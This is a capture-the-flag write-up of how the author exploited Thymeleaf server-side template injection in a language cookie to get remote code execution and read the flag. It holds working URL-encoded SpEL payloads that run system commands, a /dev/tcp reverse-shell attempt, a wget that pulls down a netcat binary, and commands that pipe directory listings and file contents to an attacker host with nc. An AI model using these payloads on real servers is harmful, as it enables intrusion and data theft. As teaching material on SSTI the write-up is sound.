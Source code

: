 # [Localization is hard - web] AeroCTF


## 0x00

To solve this challenge we had to exploit a **[SSTI](https://portswigger.net/research/server-side-template-injection)** on **Thymeleaf** and lead that into a **Remote Code Execution**

## 0x01
#### Discovering the vulnerability
The challenge description talk about a Coffee who made for CTFers and in **English and in Russian**.

![CTF description](https://i.imgur.com/88wE70b.png) 

Btw , the challenge description tell us that the flag should be located at `/` on the file system, this maybe mean that we have to get an access to the machine to read the flag.
 
By inspecting the website we can read that the language can be choosed by clicking on a button. 
`(onclick` event), then the `set_language(lang)` function will be executed

*(quick look into the /js/templatemo-script.js)*

```javascript
function set_language(lang) {
  document.cookie = "lang=" + lang;
  window.location.reload();
}
```
the function set a cookie `lang` with `en` or `ru`

*trying a path traversal   "../flag/"*

```bash
curl http://151.236.114.211:7878/ --cookie "lang=en"
```

![response](https://i.imgur.com/wwxbzN0.png)
"**org.thymeleaf.exceptions.TemplateInputException**" by googling this error message, we find : [**thymeleaf**](https://www.thymeleaf.org/) .
This a modern server-side Java template engine for both web and standalone environments.

## 0x02
#### Find out about this Template-Engine
Assuming **Thymeleaf** as a template engine , we can think about a ***Server-side template injection***.
So searching about SSTI on this template engine
**>>** [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
**>>** [https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability)
**>>** [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java)
#### Exploitation
To attempt an SSTI in Thymeleaf, we first must understand expressions that appear in Thymeleaf attributes. Thymeleaf expressions can have the following types:
  `${...}`: Variable expressions – in practice, these are OGNL or Spring EL expressions.
 `*{...}`: Selection expressions – similar to variable expressions but used for specific purposes.
  `#{...}`: Message (i18n) expressions – used for internationalization.
  `@{...}`: Link (URL) expressions – used to set correct URLs/paths in the application.
   `~{...}`: Fragment expressions – they let you reuse parts of templates.


 - `__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x`
 - `__${T(java.lang.Runtime).getRuntime().exec("whoami")}__::.x`
 
According [Acunetix](https://www.acunetix.com/). However, as we mentioned before, expressions only work in special Thymeleaf attributes. If it’s necessary to use an expression in a different location in the template, Thymeleaf supports _expression inlining_. To use this feature, you must put an expression within `[[...]]` or `[(...)]` (select one or the other depending on whether you need to escape special symbols). Therefore, a simple SSTI detection payload for Thymeleaf would be `[[${7*7}]]`.

So let's try on the site cookie to check the **RCE**
``__%24%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7D__%3A%3A.x``
![response 500](https://i.imgur.com/4ywvJ38.png)
We don't have the **stdout** in the response but we always have a 500 response.

It's maybe blind based, so let's try to sleep.
![sleep server](https://i.imgur.com/W8J1WHE.png)
It's work !

So now, we understand that :
when we got `org.thymeleaf.exceptions.TemplateInputException` this mean that the command is executed, but when we send a bad command or a non-urlencoded payload we got ``java.lang.IllegalArgumentException``

## 0x03
####  Connect to our machine

We tried firstly to do a simple tcp reverse shell with 
```bash
__%24%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22%2Fbin%2Fsh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fmyip%2F1337%200%3E%261%22).getInputStream()).next()%7D__%3A%3A.x
```
But nothing...
So let's try to wget a nc binary on our machine 
`__%24%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22wget%20ip/nc%22).getInputStream()).next()%7D__%3A%3A.x`
and now try to bind shell our machine..
![receive connexion](https://i.imgur.com/aburDce.png)
Bingo ! We got a connexion from the machine, but nothing in the output.

#### Getting a shell environment from Runtime.exec
According [code white](https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html)
The command passed to `Runtime.exec` is not executed by a shell. Instead, if you dig down though the Java source code, you'll end up in the [_UNIX process class](http://hg.openjdk.java.net/jdk7/jdk7/jdk/file/tip/src/solaris/classes/java/lang/UNIXProcess.java.linux), which reveals that calling `Runtime.exec` results in a `fork` and `exec` call on Unix platforms.

Exemple:
 ```java
import java.io.*;

public class Exec {

		public static void main(String[] args) throws IOException {
				Process p = Runtime.getRuntime().exec(args[0]);
				byte[] b = new byte[1];

				while (p.getErrorStream().read(b) > 0)
					System.out.write(b);

				while (p.getInputStream().read(b) > 0)
					System.out.write(b);
		}

}
```
We call this class as shown below with single quotes around the command line to ensure that our shell passes the command line argument to Java as is:

    $ java Exec 'command arg1 arg2 ...'
So let's try to use this to read our flag :
`__%24%7Bnew%20java.util.Scanner%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22sh%20-c%20%24%40%7Csh%20.%20echo%20ls%20-la%20%2F%7C%20nc%20ip%201337%22%29.getInputStream%28%29%29.next%28%29%7D__%3A%3A.x`

**url decoded payload**  ``__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("sh -c $@|sh . echo ls -la /| nc ip 1337").getInputStream()).next()}__::.x``

![ls -la](https://i.imgur.com/IGqCDZC.png)
Now cat the flag :
``__%24%7Bnew%20java.util.Scanner%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22sh%20-c%20%24%40%7Csh%20.%20cat%20%2Ftry_find_me.txt%7C%20nc%20ip%201337%22%29.getInputStream%28%29%29.next%28%29%7D__%3A%3A.x``
![flag](https://i.imgur.com/IxSBfpt.png)
**Aero{j4va_1s_better_th4n_engl1sh}**
Cheers, @0x22sh =) 
